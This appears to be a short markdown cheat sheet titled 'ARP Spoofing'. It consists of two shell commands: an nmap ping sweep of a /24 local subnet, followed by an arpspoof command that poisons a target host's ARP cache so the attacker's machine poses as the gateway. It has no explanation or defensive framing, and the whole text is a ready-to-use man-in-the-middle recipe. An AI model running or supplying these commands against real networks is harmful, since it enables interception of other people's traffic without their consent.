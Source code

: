 ## ARP Spoofing

```sh
sudo nmap -sn 192.168.1.1/24
```

```sh
sudo arpspoof -i eth0 -t 192.168.1.132 192.168.1.1
```
